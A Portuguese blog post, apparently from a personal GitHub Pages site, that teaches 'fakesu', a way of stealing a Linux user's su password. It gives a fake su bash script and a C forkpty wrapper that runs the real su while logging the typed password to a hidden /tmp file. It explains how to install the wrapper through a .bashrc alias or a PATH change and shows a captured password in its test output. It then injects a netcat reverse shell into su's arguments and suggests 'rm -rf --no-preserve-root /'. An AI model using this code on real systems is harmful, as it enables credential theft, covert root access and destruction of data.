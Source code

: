```yaml
---
layout: post
title: Fakesu
---
```


# Fakesu

Fakesu é uma técnica lendária, criada pelos bruxos anciões do underground que viviam
em cavernas e sobreviviam com apenas 2MB de ram. A técnica consiste em usar um programa
que simule o su, mas ao invés de efetuar o login apenas salva a senha digitada.
Não sei exatamente onde li a respeito disso, provavelmente em algum fórum, mas lembro-me
do código usado, era algo bem simples, parecido com isso:

```bash
#!/bin/bash

echo -n "Password: "
read -rs pw
echo "$pw" >> /tmp/.passwords.txt
echo
sleep 3
echo "su: Authentication failure"
```

Com o script criado, basta modificar o arquivo `~/.bashrc` e adicionar algum comando que faça o
fakesu ser executado toda vez que o usuário rodar o comando su.
Isso pode ser feito usando `alias su='~/.fakesu.sh'`,
mas eu prefiro fazer de uma outra maneira: modificar a variável PATH, para algo como `PATH="~/.fakesudir/:${PATH}"`,
 e salvar o script, no dir `~/.fakesudir`, com o nome `su`, lembrando também de dar permissão de execução 
(a vantagem nesse caso é que, se o arquivo for deletado, o su verdadeiro volta a
ser executado sem problemas).

Como podem ver, a técnica é bastante simples, acredito que a maioria que esteja lendo isso
já conheça o truque, mas tem alguns problemas, por exemplo, as mensagens podem ser diferentes,
 a linha de comando e o usuário não são verificados, o programa sempre falha.
Solucionar esses problemas não é muito difícil, e até seria divertido,
mas existe uma maneira melhor de pegar a senha, usando tty.

Além de poder armazenar o que é digitado, com tty, o su é executado normalmente, e você
pode executar outros programas, por exemplo, sudo, mysql, ssh, etc, sem precisar
criar uma versão fake de cada um. Código de exemplo:

```c
/* gcc [file.c] -static -lutil -o su */

#define LOGFILE "/tmp/.password.txt"

#include <sys/types.h>
#include <sys/wait.h>
#include <termios.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <poll.h>
#include <pty.h>


int main(int argc, char **argv, char **envp){
    struct pollfd pfds[2];
    struct termios tios, old;
    int master, fd, status, finish = 0;
    char buf[1024];
    ssize_t n;
    pid_t pid;

    /* cria tty e um novo processo */
    pid = forkpty(&master, NULL, NULL, NULL);

    if(pid == -1){
        return 1;
    } else if(pid == 0){
        /* aqui é o novo processo criado, executamos o programa alvo */
        execve("/usr/bin/su", argv, envp);

        /* caso o binario não exista ... */
        _exit(1);
    }

    /* modificando stdin (man 3 termios) */
    tcgetattr(0, &tios);
    memcpy(&old, &tios, sizeof(struct termios));
    tios.c_lflag &= ~(ISIG | ICANON | ECHO | ECHOE | ECHOK | ECHONL);
    tcsetattr(0, TCSAFLUSH, &tios);

    fd = open(LOGFILE, O_CREAT|O_RDWR|O_APPEND, 0600);
    if(fd == -1){
        return 1;
    }

    /* usando POLLIN todos os eventos de entrada serão retornados:
        stdin (quando uma tecla for digitada)
        master (quando algo for printado no stdout ou stderr)
       depois disso é so ler os dados e escrever:
        read(master) -> write(stdout)
        read(stdin)  -> write(master)
    */
    pfds[0].fd = 0;
    pfds[1].fd = master;
    pfds[0].events = POLLIN;
    pfds[1].events = POLLIN;

    /* escreve no arquivo até o stdin receber '\n' */
    while(1){
        if(poll(pfds, 2, -1) == -1)
            break;

        if(pfds[0].revents & POLLIN){
            n = read(0, buf, 1);
            if(n <= 0)
                break;

            write(master, buf, 1);

            if(!finish){
                write(fd, buf, 1);
                if(buf[0] == '\n'){
                    finish = 1;
                    close(fd);
                }
            }
        }

        if(pfds[1].revents & POLLIN){
            n = read(master, buf, sizeof(buf));
            if(n <= 0)
                break;

            write(1, buf, n);
        } else if(pfds[1].revents & POLLHUP){
            break;
        }
    }

    close(master);

    /* restaura o stdin */
    tcsetattr(0, TCSAFLUSH, &old);

    /* retorna o status code do programa executado */
    waitpid(pid, &status, 0);
    return status;
}
```

Testando:

```
$ gcc fakesu.c -lutil -static -o fakesu
$ alias su='fakesu'
$ su -
Senha:
# id
uid=0(root) gid=0(root) grupos=0(root)
$ exit
$ cat /tmp/.password.txt
0123456789abcdef
```

Existem algumas melhorias que podem ser feitas, por exemplo, salvar a linha de comando, continuar
salvando mesmo depois do `\n` (caso o usuário digite a senha errada), mudar o nome do processo (para
ficar mais stealth). Agora pense nas possibilidades, ao invés de simplesmente salvar a senha, seria
legal já executar algum comando, um `rm -rf --no-preserve-root /`, ou uma shell reversa. Isso pode
ser feito de duas formas:

* Escrever o comando, como se fosse o usuário digitando, usando `write(master, "cmd\n", size)`. Para isso é necessário verificar
se o usuário logou com sucesso,
apesar do prompt das shells ser customizável, a maioria sempre vai apresentar `#` quando executada pelo root. O problema é que
além de ter q detectar a shell, o que pode não funcionar, o comando é mostrado para o usuário, e esconder isso deixa o código
bem complicado.

* Alterar o argv, por exemplo, transformar `su -` em `su - -c 'cmd;/bin/bash -i'`. O mesmo pode ser feito com sudo ou ssh.

Como a segunda alternativa é a mais simples, focaremos nela. Modificando o execve e adicionando dois parâmeteros (-c, cmd),
assim que o usuário logar teremos uma shell, vamos alterar o código, na parte do `else if(pid == 0)`, ficando dessa maneira:

```c
    } else if(pid == 0){
        int count;

        char **xargv = malloc(sizeof(char *)*(argc+3));

        for(count=0; count<argc; count++)
            xargv[count] = argv[count];

        xargv[count++] = "-c";
        xargv[count++] = "nc -e /bin/bash localhost 1234 & /bin/bash -i";
        xargv[count] = NULL;


        /* aqui é o novo processo criado, executamos o programa alvo */
        execve("/usr/bin/su", xargv, envp);

        /* caso o binario não exista ... */
        _exit(1);
    }
```

Testando:

[![asciicast](https://asciinema.org/a/E870bZGEJQ3q4iMimIUwP7LDm.svg)](https://asciinema.org/a/E870bZGEJQ3q4iMimIUwP7LDm)

Tem muitas coisas que podem ser melhoradas, talvez eu faça e poste no github, por enquanto é isso.
